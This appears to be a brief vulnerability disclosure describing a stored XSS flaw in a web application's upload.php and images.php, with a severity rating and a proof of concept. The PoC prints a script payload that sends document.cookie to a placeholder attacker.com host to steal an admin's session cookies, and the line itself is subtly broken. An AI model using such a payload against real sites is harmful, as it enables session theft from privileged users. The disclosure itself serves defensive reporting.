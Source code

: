 # Description

Stored XSS via Unrestricted File Upload  

- **Type:** Stored Cross-Site Scripting (XSS)  
- **Location:** `upload.php` → `images.php?id=<id>`  
- **Severity:** Low (Scoped to authenticated users)  
- **Impact:** JavaScript execution in authenticated sessions  

This allows an attacker to upload files like:  

```html
<script>alert(document.cookie)</script>
```
and have them rendered by images.php?id=<id>, where the file is served as HTML.  

The only restriction is that the XSS payload is accessible only by authenticated users with a valid JWT or session. This still presents a serious issue if a victim is an admin, a staff user or another privileged role.  


# PoC

Send POST /upload.php with malicious HTML/JS file inside.

``` html
<script> fetch=('http://attacker.com/?cookie='+document.cookie)</script>  
```

After that, if admin decides to go in given link (images.php?id=123) we will get his cookies.  

Video:  

![upload](../images/file_upload.gif) 

